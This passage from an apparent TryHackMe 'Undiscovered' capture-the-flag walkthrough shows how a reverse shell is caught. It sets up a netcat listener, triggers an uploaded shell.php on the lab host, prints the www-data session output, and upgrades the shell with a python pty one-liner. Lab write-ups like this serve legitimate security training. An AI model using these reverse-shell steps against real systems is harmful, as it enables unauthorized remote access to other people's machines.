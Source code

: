 <p align="center"><img src="files/step3.png"></p>

4. Now open a listener (`rlwrap nc -lvnp 4444`) and call the shell by navigating to `http://deliver.undiscovered.thm/media/shell.php`. Now you should have a shell and the first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Undiscovered/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [<MACHINE IP>] 55616
Linux undiscovered 4.4.0-189-generic #219-Ubuntu SMP Tue Aug 11 12:26:50 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:30:31 up  1:23,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@undiscovered:/$
~~~
